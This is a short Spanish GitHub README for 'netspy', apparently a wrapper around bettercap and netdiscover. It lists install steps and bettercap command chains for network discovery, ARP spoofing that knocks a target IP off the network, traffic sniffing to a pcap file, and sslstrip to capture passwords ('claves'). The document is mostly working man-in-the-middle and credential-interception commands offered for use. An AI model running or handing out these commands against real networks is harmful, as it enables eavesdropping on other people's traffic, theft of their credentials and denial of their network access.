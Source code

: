 <img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

# Bettercap v2.9

Escanear toda la Red:
net.probe on; ticker on

Banear tarjet IP con ARP:
set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver Trafico y claves:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; set http.proxy.sslstrip true

www.hackingyseguridad.com
